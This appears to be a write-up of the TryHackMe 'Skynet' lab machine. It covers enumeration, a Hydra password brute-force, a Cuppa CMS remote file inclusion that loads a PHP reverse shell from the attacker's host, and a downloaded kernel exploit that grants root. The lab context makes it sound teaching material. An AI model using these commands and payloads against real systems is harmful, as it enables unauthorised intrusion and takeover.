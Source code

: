 # Skynet - TryHackMe

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ nmap -sV -sC -Pn 10.10.223.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 09:18 EST
Nmap scan report for 10.10.223.17
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE SASL CAPA PIPELINING UIDL TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more SASL-IR LOGIN-REFERRALS LOGINDISABLEDA0001 capabilities IMAP4rev1 LITERAL+ have OK post-login Pre-login listed ENABLE IDLE ID
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-03-13T08:18:27-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-13T14:18:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.77 seconds
```

Interested with the webserver, so I take a look and am presented with this:

![](2021-03-13-09-19-54.png)

Checked the source, nothing interesting there. I'm opting to use gobuster here to see if we can find some interesting directories:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ gobuster dir -u http://10.10.223.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

One directory it found was /squirrelmail, so I open that up and looks like they have a version of squirrelmail running:

![](2021-03-13-09-22-41.png)

Searching with searchsploit for the squirrelmail version results in the following:

![](2021-03-13-09-24-09.png)

Looks like this version has a local file inclusion. I test this:

![](2021-03-13-09-28-11.png)

Hmmh, seems not to be working for unauthorised users...

Nmap also found an SMB share, so I will run an enumeration scan using nmap scripts:

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.223.17`

The result:


![](2021-03-13-09-32-09.png)

Well as it turns out anonymous access is available, so instead I connect to the smb share:

```
──(kali㉿kali)-[~]
└─$ smbclient //10.10.223.17/anonymous 
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5797120 blocks available
```

After looking through the logs, one seems to contain a list of possible passwords.. interesting, let me use these as the password list for a brute-force:

![](2021-03-13-09-44-01.png)

Okay, now I check for the POST parameters:

![](2021-03-13-09-33-41.png)

And run the Hydra bruteforce:

![](2021-03-13-09-45-50.png)

Great! We found the username and password:
milesdyson:cyborg007haloterminator

Now, logging into the email server, we find an email with the users' SMB password:

![](2021-03-13-09-47-35.png)

I then create a credentials file for smbclient:

![](2021-03-13-09-55-17.png)

And login to milesdyson's share:

![](2021-03-13-09-55-33.png)

After navigating, I found a file under notes/important.txt which includes this:

![](2021-03-13-09-57-50.png)

The front-page for the 'beta cms' looks as such:

![](2021-03-13-09-58-24.png)

I run a gobuster and find a directory /administrator/ which brings me to this:

![](2021-03-13-10-48-03.png)

I check with searchsploit for Cuppa CMS to see if there are any public vulnerabilities:

![](2021-03-13-10-49-23.png)

Reading through the txt tells us about a local/remote file inclusion exploit on the URI `/alerts/alertConfigField.php?urlConfig=`

I decide to use php-reverse-shell (available [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)), and edit it with my local ip and port 4444, and then start up a python webserver using `python -m SimpleHTTPServer` in order to include it on the site.

Before running, I startup my listener on port 4444 using netcat, and then run the inclusion exploit:

`http://10.10.223.17/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.2.93:8000/php-reverse-shell.php`

And we have a terminal!

![](2021-03-13-11-01-17.png)

I check the kernel version for possible privesc exploits:

```
$ uname -a
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Doing a search, I find an exploit for this kernel version CVE 2017-1000112 in the form of a c file. I check, and www-data has access to wget! Okay, so let us create and compile this binary on my localmachine and upload it:

![](2021-03-13-11-17-21.png)

And then download it and execute on the victim:


```
$ wget http://10.9.2.93:8000/esc
--2021-03-13 10:14:42--  http://10.9.2.93:8000/esc
Connecting to 10.9.2.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36192 (35K) [application/octet-stream]
Saving to: 'esc'

     0K .......... .......... .......... .....                100% 1.14M=0.03s

2021-03-13 10:14:42 (1.14 MB/s) - 'esc' saved [36192/36192]
$ chmod +x esc
$ ./esc   
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html/45kra24zxs28v3yd/administrator# whoami
whoami
root
```

And now we have root! Thanks outdated kernels!

Now I am free to find the flags in /root


